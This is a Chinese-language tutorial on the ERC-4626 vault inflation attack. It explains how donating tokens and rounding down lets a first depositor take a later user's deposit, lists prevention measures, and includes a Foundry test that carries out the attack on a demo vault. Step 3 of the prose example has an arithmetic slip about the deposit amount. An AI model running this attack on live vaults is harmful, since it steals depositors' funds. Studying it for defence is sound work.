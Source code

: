# 金库通货膨胀攻击

## 弱点

通过向金库(ERC-4626)捐赠ERC20代币，可以增加保险库的份额。

攻击者可以利用这种行为窃取其他用户的存款。

## 例子

用户0偷走用户1的存款。

1. 用户0先存入1个代币，获得一股。
2. 用户0再捐赠100x10^18代币，现在一股就价值 100x10^18 + 1 个代币。
3. 用户1存入100x10^18 + 1 个代币，而此时由于除法向下取整的缘故，用户1获得0股
4. 用户0获取所有代币。

## 预防措施

* 最小份额 -> 防止抢先交易 

* 内部余额 -> 防止捐赠 

* 失效份额 -> 合约是第一个存款者 

* 小数偏移 (OpenZeppelin ERC4626)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import {Test, console2} from "forge-std/Test.sol";
import {
    IERC20,
    Vault,
    Token
} from "../../../src/hacks/vault-inflation/VaultInflation.sol";

uint8 constant DECIMALS = 18;

contract VaultTest is Test {
    Vault private vault;
    Token private token;

    address[] private users = [address(11), address(12)];

    function setUp() public {
        token = new Token();
        vault = new Vault(address(token));

        for (uint256 i = 0; i < users.length; i++) {
            token.mint(users[i], 10000 * (10 ** DECIMALS));
            vm.prank(users[i]);
            token.approve(address(vault), type(uint256).max);
        }
    }

    function print() private {
        console2.log("vault total supply", vault.totalSupply());
        console2.log("vault balance", token.balanceOf(address(vault)));
        uint256 shares0 = vault.balanceOf(users[0]);
        uint256 shares1 = vault.balanceOf(users[1]);
        console2.log("users[0] shares", shares0);
        console2.log("users[1] shares", shares1);
        console2.log("users[0] redeemable", vault.previewRedeem(shares0));
        console2.log("users[1] redeemable", vault.previewRedeem(shares1));
    }

    function test() public {
        // users[0] deposit 1
        console2.log("--- users[0] deposit ---");
        vm.prank(users[0]);
        vault.deposit(1);
        print();

        // users[0] donate 100
        console2.log("--- users[0] donate ---");
        vm.prank(users[0]);
        token.transfer(address(vault), 100 * (10 ** DECIMALS));
        print();

        // users[1] deposit 100
        console2.log("--- users[1] deposit ---");
        vm.prank(users[1]);
        vault.deposit(100 * (10 ** DECIMALS));
        print();
    }
}

```

